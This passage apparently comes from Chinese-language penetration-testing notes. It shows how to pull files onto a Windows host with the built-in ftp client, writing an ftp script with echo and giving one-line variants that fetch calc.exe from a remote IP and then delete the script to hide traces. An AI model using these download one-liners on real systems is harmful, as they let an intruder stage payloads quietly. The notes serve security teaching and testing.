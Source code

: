 ```text
## 写入ftp脚本

# user / pass 后面不要有空格
echo open 127.0.0.1 21> ftp.txt
echo user>> ftp.txt
echo pass>> ftp.txt
echo binary >> ftp.txt
echo get calc.exe >> ftp.txt
echo bye >> ftp.txt 

## ftp命令调用
# -A 使用匿名模式，-s:指定ftp脚本

ftp -s:ftp.txt
```

![](../../.gitbook/assets/image%20%28392%29.png)

### 3、一句话下载

合并写入脚本与调用的步骤

```text
## 匿名版

echo open 172.16.175.200 21>f&echo binary>>f&echo get calc.exe>>f&echo bye>>f&ftp -A -s:f&del /f /q f

## 密码版

echo open 172.16.175.200 21>f&echo user>>f&echo pass>>f&echo binary>>f&echo get calc.exe>>f&echo bye>>f&ftp -s:f&del /f /q f

## 最短语句版
## 必备条件：匿名、FTP服务器端口是默认的21

echo open 172.16.175.200>f&echo get calc.exe>>f&echo bye>>f&ftp -A -s:f&del /f /q f
```
